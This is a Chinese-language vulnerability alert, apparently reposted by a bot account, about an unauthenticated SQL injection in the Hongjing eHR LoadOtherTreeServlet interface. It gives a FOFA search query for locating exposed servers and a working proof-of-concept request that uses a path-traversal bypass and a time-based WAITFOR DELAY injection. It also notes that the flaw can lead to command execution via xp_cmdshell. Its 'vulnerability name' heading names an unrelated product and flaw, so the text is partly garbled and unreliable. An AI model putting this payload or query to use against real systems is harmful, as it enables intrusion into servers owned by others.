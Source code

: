 #  [含POC]宏景eHR LoadOtherTreeServlet SQL注入漏洞   
原创 漏洞预警机器人  安全光圈   2024-07-04 20:39  
  
# 宏景eHR LoadOtherTreeServlet SQL注入漏洞  
  
免责声明：本文内容为机器人搜集最新漏洞及POC分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！  
## 漏洞名称  
  
致远互联FE协作办公平台 ncsubjass SQL注入致RCE漏洞  
## 漏洞描述  
  
宏景eHR人力资源管理软件是一款人力资源管理与数字化应用相融合，满足动态化、协同化、流程化、战略化需求的软件。  
  
宏景eHR LoadOtherTreeServlet 接口处存在SQL注入漏洞，,未经身份验证的远程攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g1X9cMsc6D0KSBLeNmouBib7G9icKC6OqK8jgXhBah0CtPKEtaSRPdlhsll8kic7iaROj4J1bORrzwrs3x9fEWzA8w/640?wx_fmt=png&from=appmsg "null")  
## FOFA语句  
```
app="HJSOFT-HCM"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g1X9cMsc6D0KSBLeNmouBib7G9icKC6OqKibBw3BrbkBfoVzBiaR4Xx29sqSiaNaUujX1yXiaWZwjBFT3uPkP8QEXQMA/640?wx_fmt=png&from=appmsg "null")  
## POC  
```
GET /w_selfservice/oauthservlet/%2e./.%2e/gz/LoadOtherTreeServlet?modelflag=4&budget_id=1%29%3BWAITFOR+DELAY+%270%3A0%3A5%27--&flag=1 HTTP/1.1
Host: your-ip
```  
  
  
